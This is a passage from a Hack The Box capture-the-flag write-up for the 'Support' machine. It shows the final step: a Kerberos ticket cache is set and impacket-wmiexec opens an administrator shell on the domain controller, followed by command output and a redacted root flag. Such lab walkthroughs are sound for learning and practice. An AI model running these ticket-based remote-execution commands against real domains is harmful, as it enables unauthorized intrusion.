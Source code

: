 - Once the ticket is generated, we can connect to the machine via `impacket-wmiexec`:

**Specify which ticket should we use:**
```
┌──(root🌸siunam)-[~/ctf/htb/Machines/Support]
└─# export KRB5CCNAME=administrator.ccache
```

**connect to the machine via `impacket-wmiexec`:**
```
┌──(root🌸siunam)-[~/ctf/htb/Machines/Support]
└─# impacket-wmiexec support.htb/administrator@dc.support.htb -no-pass -k
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[*] SMBv3.0 dialect used
[!] Launching semi-interactive shell - Careful what you execute
[!] Press help for extra shell commands
C:\>whoami
support\administrator

C:\>ipconfig /all

Windows IP Configuration

   Host Name . . . . . . . . . . . . : dc
   Primary Dns Suffix  . . . . . . . : support.htb
   Node Type . . . . . . . . . . . . : Hybrid
   IP Routing Enabled. . . . . . . . : No
   WINS Proxy Enabled. . . . . . . . : No
   DNS Suffix Search List. . . . . . : support.htb

Ethernet adapter Ethernet0:

   Connection-specific DNS Suffix  . : 
   Description . . . . . . . . . . . : vmxnet3 Ethernet Adapter
   Physical Address. . . . . . . . . : 00-50-56-B9-B2-AE
   DHCP Enabled. . . . . . . . . . . : No
   Autoconfiguration Enabled . . . . : Yes
   IPv4 Address. . . . . . . . . . . : 10.10.11.174(Preferred) 
   Subnet Mask . . . . . . . . . . . : 255.255.254.0
   Default Gateway . . . . . . . . . : 10.10.10.2
   DNS Servers . . . . . . . . . . . : 127.0.0.1
   NetBIOS over Tcpip. . . . . . . . : Enabled
```

I'm `administrator`! :D

# Rooted

**root.txt:**
```
C:\>type C:\Users\Administrator\Desktop\root.txt
{Redacted}
```
